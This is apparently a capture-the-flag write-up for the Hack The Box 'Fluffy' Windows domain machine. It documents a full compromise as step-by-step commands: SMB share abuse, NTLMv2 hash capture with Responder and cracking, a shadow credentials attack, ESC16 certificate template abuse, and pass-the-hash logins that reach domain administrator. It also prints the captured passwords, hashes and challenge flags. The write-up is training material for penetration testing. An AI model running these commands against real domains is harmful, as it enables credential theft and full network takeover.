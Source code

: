 # HTB Fluffy Write-Up

## Overview
This write-up details the complete penetration testing process of the HTB Fluffy machine, including successful attacks, failed attempts, and lessons learned. The target was a Windows domain environment where we exploited SMB misconfigurations, performed Kerberos attacks, and ultimately gained domain administrator privileges through certificate template vulnerabilities.

## Initial Reconnaissance

### Host Discovery
- Identified the target IP: `10.10.11.69`
- Added hostname to `/etc/hosts`:
  ```bash
  echo "10.10.11.69 DC01.fluffy.htb fluffy.htb" | sudo tee -a /etc/hosts
  ```

### Port Scanning
- Performed comprehensive Nmap scan:
  ```bash
  nmap -v -sCTV -p- -T4 -Pn -oN $IP.txt $IP
  ```
  - Discovered domain controller: `DC01.fluffy.htb`

## Initial Access via SMB

### Credential Spraying
- Used NetExec (nxc) for SMB credential spraying:
  ```bash
  nxc smb 10.10.11.69 -u j.fleischman -d fluffy.htb -p 'J0elTHEM4n1990!'
  ```
  - Successfully authenticated with credentials: `fluffy.htb\j.fleischman:J0elTHEM4n1990!`

### Share Enumeration
- Enumerated SMB shares:
  ```bash
  nxc smb 10.10.11.69 -u j.fleischman -d fluffy.htb -p 'J0elTHEM4n1990!' --shares
  ```
  - Discovered writable share: `IT`

### File Search
- Attempted to find KeePass database files:
  ```bash
  nxc smb 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!' -d fluffy.htb -x "dir /s C:\*.kdbx 2>nul"
  ```
  - No results found

## Exploring the IT Share

### Connecting to IT Share
- Connected to the IT share using smbclient:
  ```bash
  smbclient //10.10.11.69/IT -U j.fleischman
  ```
  - Found interesting files:
    - KeePass-2.58.zip
    - Everything-1.4.1.1026.x64.zip
    - Upgrade_Notice.pdf

### Uploading Exploit
- Uploaded an exploit file:
  ```bash
  put exploit.zip
  ```

## Credential Harvesting with Responder

### Setting Up Responder
- Started Responder to capture NTLMv2 hashes:
  ```bash
  sudo responder -I tun0 -wvF
  ```
  - Captured hash for user `p.agila`

### Cracking the Hash
- Cracked the NTLMv2 hash with John the Ripper:
  ```bash
  john pagila_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
  ```
  - Successfully cracked password: `prometheusx-303`

## Privilege Escalation to winrm_svc

### Adding to Privileged Group
- Added p.agila to SERVICE ACCOUNTS group:
  ```bash
  bloodyAD --host '10.10.11.69' -d 'dc01.fluffy.htb' -u 'p.agila' -p 'prometheusx-303' add groupMember 'SERVICE ACCOUNTS' p.agila
  ```

### Shadow Credentials Attack
- Performed shadow credentials attack on winrm_svc account:
  ```bash
  certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -account 'WINRM_SVC' -dc-ip '10.10.11.69'
  ```
  - Obtained NT hash for winrm_svc: `33bd09dcd697600edf6b3a7af4875767`

### Gaining Shell Access
- Connected via Evil-WinRM:
  ```bash
  evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767
  ```
  - Found user flag: `f1e5d0decf5e24a8276abeea67528a43`

## Privilege Escalation to Domain Admin

### Discovering ESC16 Vulnerability
- Checked for vulnerable certificate templates:
  ```bash
  certipy-ad find -vulnerable -u CA_SVC -hashes ":ca0f4f9e9eb8a092addf53bb03fc98c8" -dc-ip 10.10.11.69
  ```
  - Found ESC16 vulnerability: Security Extension disabled on CA globally

### Exploiting ESC16
1. **Time Synchronization**:
   ```bash
   sudo ntpdate 10.10.11.69
   ```

2. **Read CA_SVC Account Details**:
   ```bash
   certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -user 'ca_svc' read
   ```

3. **Modify UPN to Administrator**:
   ```bash
   certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'administrator' -user 'ca_svc' update
   ```

4. **Request Certificate**:
   ```bash
   certipy-ad shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -account 'ca_svc' auto
   export KRB5CCNAME=ca_svc.ccache
   certipy-ad req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'
   ```

5. **Restore Original UPN**:
   ```bash
   certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
   ```

6. **Authenticate as Administrator**:
   ```bash
   certipy-ad auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
   ```
   - Obtained administrator NT hash: `aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e`

### Final Access
- Connected as administrator:
  ```bash
  evil-winrm -i 10.10.11.69 -u 'administrator' -H aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
  ```
  - Found root flag: `b462cf57b84a06664b1e47c349e5035f`

## Failed Attempts and Lessons Learned

1. **Initial SMB Enumeration**:
   - Attempted to find KeePass files but failed due to insufficient permissions
   - Lesson: Should have focused on writable shares first

2. **Kerberos Attacks**:
   - Multiple attempts to get TGS tickets failed due to time synchronization issues
   - Lesson: Always check and synchronize time with DC before Kerberos attacks

3. **Certificate Template Exploitation**:
   - Initial attempts failed due to missing group memberships
   - Lesson: Need to fully understand AD group memberships before attacks

4. **Web Enrollment**:
   - Attempts to access web enrollment failed with timeouts
   - Lesson: Some services might be disabled even if vulnerable

## Conclusion

This challenge demonstrated a complete attack path from initial access to domain compromise. Key takeaways include:

1. SMB shares often contain valuable information or provide initial footholds
2. NTLM relay and responder attacks are still effective in many environments
3. Certificate template vulnerabilities (like ESC16) can lead to domain compromise
4. Time synchronization is critical for Kerberos-based attacks
5. Persistence and thorough enumeration are key to successful penetration testing

The final path to root involved:
1. Initial access via SMB credentials
2. Credential harvesting with Responder
3. Privilege escalation via shadow credentials
4. Domain admin access through certificate template vulnerability exploitation
